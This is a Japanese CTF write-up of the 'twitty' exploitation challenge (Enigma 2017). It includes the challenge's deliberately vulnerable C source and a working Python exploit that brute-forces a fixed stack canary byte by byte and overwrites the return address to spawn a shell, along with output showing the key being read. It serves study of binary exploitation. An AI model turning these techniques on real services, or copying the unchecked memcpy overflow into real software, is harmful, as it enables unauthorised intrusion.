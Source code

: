 # twitty [170pt] (HackCenter Enigma 2017 Exploitation)

## Problem
Download the source for our new messaging service at twitty.c.  
We are running our own version online at: enigma2017.hackcenter.com:25500.  

HINTS  
Sylvester can get the canary, but only one bite at a time.  

## Write-up
指定されたipに接続し適当な文字列を送信すると、文字列の先頭に"Twit: "をつけてオウム返しするプログラムのようだった。ただ、帰ってきた文字列の後ろに謎の文字列が付いているためメモリリークが起きている可能性がある。
````
$ nc enigma2017.hackcenter 25500
AAAA
Twit: AAAA
�
````

ソースコードが与えられているため内容を確認する。  
main関数で最大256バイトreadし、post関数で読み取った文字列の先頭に"Twit: "を加え、文字列へのアドレスをリターンしている。
post関数では独自のカナリアを使用しており、単純なバッファオーバーフローを防いでいる。
また、/bin/bashを起動するmaintenance関数が用意されているため、制御をこの関数に飛ばしてやればよい問題のように見える。

twitty.c
````
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <signal.h>

void maintenance() {
  printf("MAINTENANCE MODE\n");
  fflush(stdout);
  system("/usr/bin/stdbuf -i0 -o0 -e0 /bin/bash");
}

char * prefix = "Twit: ";
char * post(uint8_t * msg, int len) {
  // Super long canaries for extra security
  unsigned long long canary = CANARY;
  char local[128];
  strcpy(local, prefix);
  // No need to worry about overflows since we compile with canaries
  memcpy(local+strlen(prefix), msg, len);
  if (canary != CANARY) {
    puts("Stack smashing detected\n");
    exit(1);
  }
  return strdup(local);
}

void handler(int sig) {

  exit(1);

}

int main(int argc, char ** argv) {
  uint8_t buffer[256];
  signal(SIGALRM, handler);
  alarm(2);
  int len = read(0, buffer, sizeof(buffer));
  char * format = post(buffer, len);
  printf("%s", format);
  fflush(stdout);
  exit(0);
}


// compile with gcc -m32 -fno-stack-protector -o twitty twitty.c
````

コードを見れば一目瞭然だがこのコードにはバグが有り、main関数で最大256バイト読取るのに対してpost関数のローカルバッファは128バイトしか用意していない。
そのため、122バイト(=128-strlen("Twit: ))バイトより大きい文字列を送ればバッファオーバーフローが可能となる。
この問題では、カナリアの値は固定値が入っているようなので、1バイトずつブルートフォースで求めることができる。
カナリアが判明したあとは普通にリターンアドレスをmaintenance関数へのアドレスに上書きしてやればいい。  
maintenance関数のアドレスはShellServerでソースコード末尾の通りにコンパイルしたあとで調べた。  
以下のコードをShellServer上で実行したらシェルが取れた。

solve.py
````
import struct, telnetlib, socket

def connect(ip, port):
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((ip, port))
  return s

#bruteforce to detect canary
padding = 'A'*122
canary = ''
for i in range(8):
  for j in range(0, 256):
    tmp = struct.pack('B', j)
    s =  connect('localhost', 25500)
    buf = padding + canary + tmp
    s.send(buf)
    recv = s.recv(2048)
    if len(recv) > 30:
      print 'found: 0x%02x' % j
      canary += tmp
      s.close()
      break
    s.close()
print 'canary is 0x%08x' % struct.unpack('<Q', canary)[0]
#canary = '\x00\xa7\xda\xc4\xb0\xb5\x04\x00' #detected canary value

#overflow return address
maintenance = 0x0804862b #address of maintenance()
s = connect('localhost', 25500)
buf  = padding 
buf += canary
buf += 'A'*8  #padding
buf += struct.pack('<I', 0xdeadbeef) #old ebp
buf += struct.pack('<I', maintenance) #return address
s.send(buf)
print s.recv(1024)

t = telnetlib.Telnet()
t.sock = s
t.interact()
````

実行結果
````
found: 0x00                                                                            
found: 0xa7                                                                            
found: 0xda                                                                            
found: 0xc4                                                                            
found: 0xb0                                                                            
found: 0xb5                                                                            
found: 0x04                                                                            
found: 0x00                                                                            
canary is 0x4b5b0c4daa700                                                              
MAINTENANCE MODE                                                                       
                                                                                       
ls                                                                                     
key                                                                                    
twitty                                                                                 
twitty.c                                                                               
xinetd_wrapper.sh                                                                      
cat key                                                                                
xxxxxxxx
````
